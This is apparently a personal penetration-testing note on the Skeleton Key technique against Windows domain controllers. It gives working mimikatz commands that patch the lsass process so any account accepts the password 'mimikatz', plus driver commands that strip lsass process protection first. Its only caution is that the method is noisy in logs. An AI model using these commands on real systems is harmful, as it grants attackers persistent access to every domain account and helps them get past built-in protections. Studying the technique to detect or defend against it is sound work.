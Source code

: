 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz 
- Persistence technique where it is possible to path the DC's `lssass` process so that it allows access as any user with a single password.
- Discovered by Dell Secureworks.
- Using mimikatz to inject skeleton key
```powershell
privilege::debug # 200 OK
misc::skeleton
# Any resource can be accessed by it's username and password as "mimikatz"
```
- In case the lssass.exe process in running as a protected process, we need to use the mimidriv.sys (mimikatz driver) to use skeleton key:
```powershell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
# NOTE: The above process is noisy in logs
```